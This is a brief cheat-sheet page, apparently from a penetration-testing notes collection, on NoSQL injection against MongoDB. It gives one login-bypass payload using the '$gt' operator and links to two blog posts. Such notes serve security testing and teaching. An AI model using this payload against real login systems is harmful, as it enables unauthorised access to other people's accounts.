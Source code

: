 # NoSQL Injections

Nosql-databases like MongoDB is becoming more and more common. So this needs to be expanded.

### Login bypass <a id="login-bypass"></a>

Basically change the query to this.

```text
{"user":{"$gt": ""},"pass":{"$gt": ""}}
```

[http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html) [http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html](http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html)


